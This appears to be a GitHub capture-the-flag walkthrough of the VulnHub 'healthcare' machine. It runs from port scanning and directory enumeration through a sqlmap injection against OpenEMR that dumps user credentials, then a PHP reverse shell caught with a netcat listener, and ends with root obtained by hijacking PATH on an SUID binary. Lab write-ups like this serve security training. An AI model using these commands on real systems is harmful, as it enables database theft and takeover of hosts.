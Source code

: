# healthcare-walkthrough
a walkthrough for healthcare machine from vulnhub
hello all today im walking throih with a new machine "healthcare"

first we need to know what our machine ip is so 

```bash
nmap -sn 10.10.0.0/24 #for you the network might be different
```
for me machine ip is 

```
10.10.0.21
```
now first thing come to mind is to see open ports and the services that running

```
nmap -p- -A 10.10.0.21 -oN nmapscan.txt
```
-p- to scan all ports #the defult scan only scan the first 1000 port

-A for  enables OS detection, version detection, script scanning, and traceroute

we got 2 ports open 

21/tcp open  ftp     ProFTPD 1.3.3d

80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))

i first searched for the 21 port but no vulnerabilities was out there so getting to the http port

nothing were there in the page nor the source code 

for further enumeration lets try gobuster

i tried this enumeration multiple times with multiple lists finally got something back with 

```
gobuster dir -u http://10.10.0.21 -w /usr/share/wordlists/seclists/Discovery/Web-content/directory-list-2.3-big.txt -t 100 -e php, txt
```

-t for the threads

-e to search for txt file also

![image](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/5a58e724-5f9c-498b-96c6-4c5ad5171867)


![image](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/822a4d43-2b6e-4dbb-8c36-9d87f86869f2)


googling the "OpenEMR v4.1.0"

https://www.exploit-db.com/exploits/49742

following along with this exploit we found that its vulnerable to sqli with the url of 

http://example.com/interface/login/validateUser.php?u=

so i did enumerate with sqlmap 

```
sqlmap -u http://10.10.0.21/openemr/interface/login/validateUser.php?u= --dump-all --all --batch
```

simplifing the command 

-u http://10.10.0.21/openemr/interface/login/validateUser.php?u=: This option specifies the target URL that you want to test for SQL injection.

--dump-all: This option tells sqlmap to dump all the data from the database once a successful SQL injection is found. This includes tables, columns, and their contents.

--all: This option instructs sqlmap to perform all the available tests and techniques to exploit the SQL injection vulnerability.

--batch: This option enables the batch mode, which means that sqlmap will automatically choose the default options without asking for user interaction.

![image 3](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/3197c392-416b-405e-9c44-265342ad28a8)

we found interesting database name 

![image 2](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/ff876401-e4b8-467b-9af7-b88cf02410e0)

now wtih the database name openemr
i got lucky guessing the table name of users

```
sqlmap -u http://10.10.0.21/openemr/interface/login/validateUser.php?u=  -D openemr -T users --dump   
```

simplifing the command

-D openemr: This option specifies the name of the target database.

-T users: This option specifies the name of the target table within the database.

--dump: This option tells sqlmap to perform a database dump specifically on the specified table. It will retrieve and display all the data from the targeted table.

![image 4](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/ce125803-ac85-44ff-89f6-9248d6551f46)

we got some creds now for 'admin' and 'medical'

i logged in and wrote a php revshell i used 'PHP PentestMonkey' you can fid it and more revs here

[revshell.com 
](https://www.revshells.com/)

![image 5](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/58d6bce8-bacf-444f-868b-dd175f70421a)

on my machine i setuped a netcat listener 

```
nc -nlvp 9001
```

![image 6](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/67fd2405-83ba-4fca-9fc9-c16de086b438)

boom!!! we are in

now lets do a privilege escalation

doing some basic manual enumeration like getting a version of the kernal and stuff
you can find this link very usefull to know where to look and why 

https://book.hacktricks.xyz/linux-hardening/privilege-escalation

looking into /etc/passwd file we notice that thier a user there name medical 

so lets try to switch user with the creds we got from the database

the good new that it works now lets try again with the new user 

when running the command we will get somethhing interesting

```
find / -perm -4000 2>/dev/null #Find all SUID binaries
```
![image 7](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/d49caad8-e541-413f-ac43-6fadfc976773)

seeing what inside the string we get

![image 8](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/9d9ae133-2ad5-4227-9e2c-eea85e1079f0)

we can use either ofconfig or fdisk

![image 9](https://github.com/0xA4O/healthcare-walkthrough/assets/57577405/229e422f-6be3-427d-b888-83f8597d5e88)

now simplifing the command to get better understanding of whats going here 

here the string helthcare the user medical can run as a root withoud password 

the good thing that when the string runs it goes and call ifconfig and fdisk 

what the system does to get the ifconfig or the fdisk is to search across the $PATH one by one to get better understanding type in the command 

```
echo $PATH
```
those strings you got system will go through them now we might fool the system and create a file named "ifconfig" and add a new dir to the $PATH so it runs first 

```
cd /tmp # i used tmp because its for sure will have a write permission 
```
```
echo "/bin/bash" > ifconfig #this creates a new file calling the bash and here when called will be called in the root perm
```
```
chmod +x ifconfig # to make an excutable file
```
```
export PATH=/tmp:$PATH #this add the current dir to the path 
```
```
/usr/bin/healthcheck # now after preparing the file and the path calling out the string with root privileges
```

congratulations you are now root!!!
